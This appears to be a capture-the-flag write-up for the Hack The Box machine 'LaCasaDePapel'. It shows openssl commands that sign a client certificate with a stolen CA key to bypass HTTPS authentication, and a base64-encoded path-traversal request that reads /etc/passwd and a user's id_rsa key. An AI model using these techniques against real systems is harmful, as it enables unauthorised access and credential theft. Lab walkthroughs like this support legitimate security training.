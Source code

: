 # 15 - LaCasaDePapel


# DNS name
![](vx_images/574228188976.png)






# HTTPS (Certificate error)
![](vx_images/4373180807213.png)

We have the CA key already, we can generate our own client certificate and sign it with this key.


```bash
$ openssl genrsa -out client.key 2048                                              # generates a private key
$ openssl req -new -key client.key -out client.csr                                 # certificate signing request
$ openssl x509 -req -days 365 -in client.csr -signkey ca.key -out client.crt       # signs the certificate
$ openssl pkcs12 -export -in client.crt -inkey  ca.key  -out client.p12            # changes the format from pem to p12 because firefox likes p12
```


Import the certificate on your browser
![](vx_images/5679550781539.png)


# HTTPS (Authenticated)
![](vx_images/1894314687399.png)



# Season 1
![](vx_images/4864149403079.png)

Filenames appear in the link as base64


#  Base64 encoded 01.avi filename

```
GET /file/U0VBU09OLTEvMDEuYXZp HTTP/1.1
Host: 10.10.10.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.131/?path=SEASON-1
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

# Decode
```
┌─[user@parrot]─[10.10.14.18]─[~/htb/lacasadepapel/ssl]
└──╼ $ echo U0VBU09OLTEvMDEuYXZp |base64 -d 
SEASON-1/01.avi
```


# Local File Inclusion
`GET /file/../../../../../../etc/passwd` the part after `file/` has to be base64 encoded

![](vx_images/1685204538915.png)


# id_rsa

![](vx_images/4226261449455.png)


# Key works for professor
![](vx_images/4381961651857.png)
